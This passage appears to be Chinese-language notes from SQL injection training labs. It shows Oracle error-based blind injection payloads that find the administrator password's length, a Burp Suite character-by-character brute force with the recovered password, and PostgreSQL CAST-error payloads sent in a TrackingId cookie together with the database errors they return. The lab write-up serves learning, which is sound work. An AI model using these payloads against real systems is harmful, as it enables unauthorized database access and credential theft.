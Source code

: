 在case then语句中*是非法的

密码长度，注意报错说明是对的，不报错才说明是错的

```sql
OzouoA9wVPzw8Aip'||(SELECT CASE WHEN LENGTH(password)>5 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

密码长度是20



burpsuite逐位爆破

![image-20250806231716447](assets/image-20250806231716447.png)

结果：vbnaj0sxaeocdfe97cv4

### 关卡2

```
TrackingId=XW3erD3QG61vhT8T'+and+cast((select+1)+as+int)--+
```

报错：ERROR: argument of AND must be type boolean, not type integer

调整为：

```
Cookie: TrackingId=XW3erD3QG61vhT8T'+and+1=cast((select+1)+as+int)--+
```

不报错了

调整为：

```
Cookie: TrackingId=XW3erD3QG61vhT8T'+and+1=cast((select+username+from+users)+as+int)--+
```

报错信息：

```
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = 'XW3erD3QG61vhT8T' and 1=cast((select username from users) as'. Expected  char
```

由于输出字符限制，信息不全

删除 TrackingId Cookie 的原始值以释放一些额外的字符。重新发送请求。

```
Cookie: TrackingId='+and+1=cast((select+username+from+users)+as+int)--+
```

报错：

ERROR: more than one row returned by a subquery used as an expression
